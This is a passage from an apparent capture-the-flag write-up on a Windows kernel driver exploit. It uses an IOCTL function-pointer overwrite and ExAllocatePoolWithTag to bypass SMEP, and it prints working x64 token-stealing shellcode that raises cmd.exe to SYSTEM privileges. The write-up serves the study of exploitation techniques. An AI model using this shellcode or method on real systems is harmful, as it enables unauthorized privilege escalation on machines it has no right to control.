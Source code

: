 The function pointer to be executed on the IOCTL call is stored in `SecureDrv+0x4050`, overwriting this value lets us call any function. We can call `protect` and `unprotect` IOCTL handles to get back our arbitary write primitive. Since the setup of the challenge impiles that we are in Medium Mandatory Level, we can use [NtQuerySystemInformation](https://docs.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) to obtain the kernel addresses we need.


We overwrite the function pointer with [ExAllocatePoolWithTag](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-exallocatepoolwithtag) to get an executable region to write our privilege escalation shellcode and thus bypass SMEP. `ExAllocatePoolWithTag` has 3 arguments: `PoolType`, `NumberOfBytes` and `PoolTag`, we control the first 2 arguments, we don't care about the tag. Looking at the IOCTL handler we can see that the return value of the function is passed back to the user, making it convenient to get the address of the rwx region.

Then we copy the shellcode to the pool using the arbitary write and then overwrite the function pointer with the address of the shellcode, and finally execute it. The shellcode replaces the security token of cmd.exe(the parent of the exploit process) with that of the system process.
```C
// https://improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-1
// Windows 10 x64 EoP shellcode (stealing token) 
// Elevates privelege of parent process (cmd.exe)

mov r9, qword ptr gs:[0x188]
mov r9, qword ptr[r9+0x220]
mov r8, qword ptr[r9+0x3e0]
mov rax, r9
loop1:
mov rax, qword ptr[rax+0x2f0]
sub rax, 0x2f0
cmp qword ptr[rax+0x2e8], r8
jne loop1
mov rcx, rax
add rcx, 0x358
mov rax, r9
loop2:
mov rax, qword ptr[rax+0x2f0]
sub rax, 0x2f0
cmp qword ptr [rax+0x2e8], 4
jne loop2
mov rdx, rax
add rdx, 0x358
mov rdx, qword ptr [rdx]
mov qword ptr [rcx], rdx
ret
```

An important thing to note when performing the arbitary write is the presence of null bytes in the data to be written. The `unprotect` function writes data to the pointer only until the first null byte. You can write in parts to write the whole data, especially in case of the EoP shellcode. You cannot write the function pointer in parts as the function pointer itself needs to be set to perform a write in te first place.

We will be overwriting the function pointer twice; once with `ExAllocatePoolWithTag` and then with pool address containing our payload. So we cannot have any null bytes in these addresses. The exploit may have to be run a number of times after restarting the system to get null free kernel addresses. 
